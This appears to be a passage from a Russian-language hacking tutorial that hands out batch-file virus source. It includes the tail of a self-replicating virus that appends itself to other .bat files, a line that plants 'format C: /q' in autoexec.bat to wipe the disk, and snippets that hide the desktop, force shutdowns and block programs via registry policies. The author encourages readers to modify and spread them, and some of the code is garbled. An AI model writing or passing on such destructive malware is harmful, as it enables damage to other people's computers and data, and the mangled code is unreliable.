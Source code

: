 :Mete {метка}

for %%t in (*.bat) do call c:Meteor In_ %%t {выполняем одну команду (call - позволяет вызвать один пакетный файл из другого) для нескольких параметров t} {т.е. вирус находит файл с расширением .bat, и заражает его с помощью команды type, дописывая себя к найденному .bat-файлу}

goto Met {перейти к метке}

:Meteo {метка}

find "Meteor"nul {указываем файлу значение 2 и запрещаем вывод команды и ее результата на экран}

if not errorlevel 1 goto Met {если не произошло ошибки (с кодом 1) выполнения предыдущей команды, то переходим на метку}

type c:Meteor.bat>>%2 {дописываем «себя» к найденному .bat-файлу}

:Met {метка}
[/SRC]
Вот это уже можно назвать более или менее полноценным вирусом!
Для того чтобы вирус стал вирусом, его нужно сохранить с расширением BAT. Жмем «Сохранить как», пишем например virus.bat.
На основе этого исходника можно создавать другие вирусы. Экспериментируйте, модернизируйте, пробуйте написать свой вирус. Скажу к слову, что используя этот исходник, я сделал из него еще три модификации. И это не предел! Возможности не ограничены, все зависит от вашей фантазии.

Приведу еще один простой, но интересный пример:
[SRC]
Echo_inactive_inactive off
Echo format C: /q >> c:Autoexec.bat
[/SRC]

Все! Ничего особенного, да? Этот вирус добавляет в autoexec.bat строку format C: /q и при перезагрузке компа происходит быстрое форматирование диска:)
И вот еще что:
[SRC]
Echo var WSHShell = WScript.CreateObject("WScript.Shell"); > %temp%mes.js
echo WSHShell.Popup ("ПИШИ СЮДА ЧТО УГОДНО"); >> %temp%mes.js
start %temp%mes.js
deltree /y %temp%mes.js
[/SRC]
Добавь этот скрипт в свой вирус, вместо «ПИШИ СЮДА ЧТО УГОДНО» напиши свой текст (например, предсмертную речь для юзера:) ), и при запуске вируса вылезет окошечко с твоим сообщением!
На заметку файл мы сохраняем так Rango-hack ".bat" ← Обязательно.

Еще пару bat кодов )) Вирусов.
Убирает рабочий стол:
[SRC]
Echo_inactive_inactive off
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /d 1 /f >nul
[/SRC]
Выключается компьютер:
[SRC]
Echo_inactive_inactive off
shutdown -s -t 1 -c "lol" >nul
[/SRC]
Перезагрузка компьютера:
[SRC]
Echo_inactive_inactive off
shutdown -r -t 1 -c "lol" >nul
[/SRC]
Запрещает запускать программы:
[SRC]
Echo_inactive_inactive off
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun /v 1 /t REG_DWORD /d %SystemRoot%\explorer.exe /f >nul
[/SRC]
